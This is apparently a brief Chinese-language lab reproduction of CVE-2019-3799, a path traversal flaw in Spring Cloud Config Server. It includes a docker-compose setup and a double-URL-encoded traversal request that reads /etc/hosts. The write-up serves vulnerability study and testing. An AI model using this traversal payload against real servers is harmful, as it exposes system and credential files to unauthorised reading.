 ## Spring Cloud Config Server 路径穿越与任意文件读取 【CVE-2019-3799】


## 测试环境

```
docker-compose up -d
```
环境启动后，访问http://ip:38091

## 漏洞复现

我这里使用的是https://github.com/spring-cloud-samples/config-repo

访问http://loneyer:38091/foo/default/master/logtest.yml

![1.png](1.png)

> http://loneyer:38091/foo/default/master/..%252F..%252F..%252F..%252F..%252F..%252Fetc%252fhosts

![2.png](2.png)

